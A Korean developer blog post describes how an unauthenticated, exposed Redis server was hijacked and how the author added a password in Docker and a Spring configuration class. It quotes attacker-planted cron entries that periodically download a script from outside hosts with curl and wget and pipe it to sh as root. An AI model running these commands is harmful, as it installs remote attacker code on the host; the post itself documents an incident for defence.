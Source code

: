 ```yaml
---
date: 2023-03-9
title: "TTL 설정 없이도 Redis 저장 내용이 사라진다면"
category :
  - Wealth Marble
permalink: /wealth-marble/TTL 설정 없이도 Redis 저장 내용이 사라진다면/

toc: true
toc_sticky: true
---
```


<p><img alt="" src="https://velog.velcdn.com/images/kny8092/post/1ab5e216-20ad-43cc-92f4-183e13d10b42/image.png" /></p>
<p>분명히 로컬에서 Test 했을 때는 정상적으로 동작했고, 배포 된 서버에 요청을 보냈을 때 Redis에 원하는 값이 저장되는 것을 확인했다.
그런데.. 몇 시간뒤나 다음날 다시 테스트하려고 하면 자꾸 캐싱해둔 내용이 사라져있다...
초면인 backup1 ~ backup4가 있다...
혹시 redis 비밀번호를 따로 설정하지 않았다면</p>
<blockquote>
<p>누군가 내 작고 소중한 Redis를 몰래 쓰고있다.</p>
</blockquote>
<p>이전에 부스트캠프 프로젝트를 하면서 다른 조에서 해킹을 당했었다는 내용을 공유받은 적이 있었는데, 그 당시에는 Redis 사용을 고려하지 않았고 우리 프로젝트는 github star도 많지 않으니 해킹을 당하겠어? 라는 아주 안일한 생각을 하고 있었다.</p>
<p>처음에는 TTL설정 문제인줄 알고 Redis default TTL을 계속 찾아봤다.
하지만 관련 문제는 아니였다.</p>
<p>다음에 했던 것이 Redis에 어떤 command가 날라왔는지 조사를 했는데, 엄청 많은 요청이 계속 들어오고 있었다.</p>
<pre><code class="language-shell">&gt; redis-cli
&gt; monitor</code></pre>
<img height="50%" src="https://velog.velcdn.com/images/kny8092/post/309d8b55-3815-4705-8cc0-60001ba94c5f/image.png" />


<p>그제서야 전에 해킹관련 이야기를 들었던 것이 생각이 났고, 찾아보기 시작했다.
(이후에 알았지만 저 명령들은 내 Redis Explorer에서 요청보낸 것..)</p>
<h3 id="누구세요">누구세요</h3>
<p>backup에 적힌 내용을 가만히 살펴보니 다음과 같았다.</p>
<pre><code class="language-shell">*/2 * * * * root cd1 -fsSL http://en2an.top/cleanfda/init.sh | sh
*/3 * * * * root wget -q -O- http://en2an.top/cleanfda/init.sh | sh
*/4 * * * * root curl -fsSL http://45.83.123.29/cleanfda/init.sh | sh
*/5 * * * * root wd1 -q -O- http://45.83.123.29/cleanfda/init.sh | sh</code></pre>
<p>주기적으로 스크립트를 다운받아 실행 시키고 있었다.</p>
<p><img alt="" src="https://velog.velcdn.com/images/kny8092/post/cc49ce32-5227-4e5a-a356-a76687adc4e9/image.png" /></p>
<p>ip를 찾아봤을 때 우리나라는 아니였다.. 저 sh을 받아보고 싶었지만, 무슨 위험이 있을지 몰라서 빤히 쳐다보는 일 밖에 할 수 없다...;;</p>
<h3 id="외양간-고치기">외양간 고치기</h3>
<p>비밀번호는 다음 명령으로 설정 가능하다.</p>
<pre><code class="language-shell"># docker container 실행 시 설정
$ docker run --name redis -p 6379:6379 -d redis --requirepass {password}

# docker 내부 접속하여 redis cli 명령을 사용하고 싶을 때
$ docker exec -it redis redis-cli -a {password}</code></pre>
<pre><code class="language-java">
@Configuration
public class RedisConfig {

    @Value("${spring.redis.host}")
    private String host;

    @Value("${spring.redis.port}")
    private Integer port;

    @Value("${spring.redis.password}")
    private String password; # 비밀번호 설정 추가

    @Bean
    public RedisConnectionFactory redisConnectionFactory() {
        RedisStandaloneConfiguration redisStandaloneConfiguration = new RedisStandaloneConfiguration();
        redisStandaloneConfiguration.setHostName(host);
        redisStandaloneConfiguration.setPort(port);
        redisStandaloneConfiguration.setPassword(password);
        LettuceConnectionFactory lettuceConnectionFactory = new LettuceConnectionFactory(redisStandaloneConfiguration);
        return lettuceConnectionFactory;
    }
}
</code></pre>
<h3 id="교훈">교훈</h3>
<p>서버 환경에 배포 시에는 password 설정과 port 허용에 신경쓰자!</p>
<hr />
<p>참고
<a href="https://gofnrk.tistory.com/84">https://gofnrk.tistory.com/84</a>
<a href="http://redisgate.kr/redis/education/redis_hacking.php">http://redisgate.kr/redis/education/redis_hacking.php</a></p>